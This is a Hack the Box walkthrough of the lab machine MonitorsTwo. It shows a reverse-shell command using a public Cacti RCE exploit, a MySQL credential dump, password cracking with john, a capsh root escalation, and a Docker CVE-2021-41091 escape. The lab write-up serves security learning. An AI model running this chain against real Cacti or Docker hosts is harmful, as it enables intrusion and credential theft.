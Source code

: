 +++
author = "Nick"
categories = ["hack the box", "Easy", "Linux"]
date = 2023-9-02T11:00:00.000Z
publishDate = 2023-09-02T11:00:00.000Z
description = " "
summary = ""
draft = false
slug = "hack-the-box-monitorstwo"
tags = ["hack the box", "Easy", "Linux", "Docker", "CVE-2021-41091", "RCE", "mysql", "John", "CVE-2021-41091"]
title = "Hack the Box - monitorstwo"
url = "/hack-the-box-monitorstwo"
thumbnail = "/images/monitorstwo/logo.png"
+++

Welcome back! Today we're going to go through the Hack the Box machine MonitorsTwo. This is listed as an easy Linux machine. So let's see what's in store.

As usual, we start with our standard `Rustscan` of the target. Here are the results:

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-title: Login to Cacti
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see that there is a `Cacti` service running on port `80`. This recently [had an `Unauthenticated RCE`](https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/) disclosed, so I wonder if that's our way in. 

Let's see what's being hosted. Sure enough, when we get to the landing page, we see `cacti` running with the vulnerable version - `1.2.22`. 

![](/images/monitorstwo/mon2.png)

So we grab our PoC from [FredBrave](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22). First we need to setup a `nc` listener. Then we can fire off the script with the supplied parameters and we should get a shell back!

`python3 CVE-2022-46169.py -u http://10.129.228.231 --LHOST=10.10.14.2 --LPORT=6969`

Sure enough, we catch our listener back.

![](/images/monitorstwo/mon22.png)

With a limited shell, we copy of `linpeas` and start some enumeration. We see that we are in a `Docker` container. We also see that we can read `entrypoint.sh` as well as have `capsh` to list other privileges we might be able to abuse. So we look at the `entrypoint.sh` file and see we get a username and password for the `mysql` database.

![](/images/monitorstwo/mon23.png)

So we can connect to this `database`. We need to stabilize the shell in this case.

`/usr/bin/script -qc /bin/bash /dev/null`
`ctrl-z`
`stty raw -echo; fg;`

Now with a stable shell we are able to connect reliably to the `mysql` service. 

`mysql -h db -u root -p`

Once we're in we `show databases;`

![](/images/monitorstwo/mon24.png)

Then we `use cacti;` to select the `database`. Then we `show tables;`. In the tables we see `user_auth`, so we dump it.

![](/images/monitorstwo/mon25.png)

![](/images/monitorstwo/mon26.png)

Now we have `marcus` as a user and his hash. We can run this through `john` and see what comes back.

`john hash --wordlist=/usr/share/wordlists/rockyou.txt`

![](/images/monitorstwo/mon27.png)

Perfect, a password! Let's try to `SSH` into the box with it. We log in and snag our `user.txt` flag.

![](/images/monitorstwo/user.png)

Now we transfer over `linpeas` and let that start digging. After quite a bit of time, of snooping with `pspy` and manual enumeration, we circle back to what `linpeas` had originally shown us:

![](/images/monitorstwo/mon28.png)

We check the `docker` version and see that it's `20.10.5`. Researching this version tells us there is a vulnerability in it - CVE-2021-41091. Some digging finds us a [Poc](https://github.com/UncleJ4ck/CVE-2021-41091). From the repo, we need to do three things. Connect back to the containered instance. Change the `SUID` bit on `bash` then run the `PoC` script on the host. So we connect back to the containered system via our earlier exploit. Now we need to change the `SUID` bit on `Bash`. In this case it's fairly easy, since before we noted that `capsh` was a potential exploitable path. We can use [this GTFObins](https://gtfobins.github.io/gtfobins/capsh/) command to give us that exactly.

Command:
`./capsh --gid=0 --uid=0 --`

![](/images/monitorstwo/mon29.png)

This gives us a `root` shell on the container. We can then give the standard `chmod u+s /bin/bash` to give us that `SUID` bit.

![](/images/monitorstwo/mon30.png)

Step 2, check. Now we upload `exp.sh` on the target as `marcus`. We answer `yes` to the prompt. Then we go to the full vulnerable path and execute `bash -p` to get `root`.

![](/images/monitorstwo/root.png)

There we have it, a root shell with another `root.txt` flag in the bank! 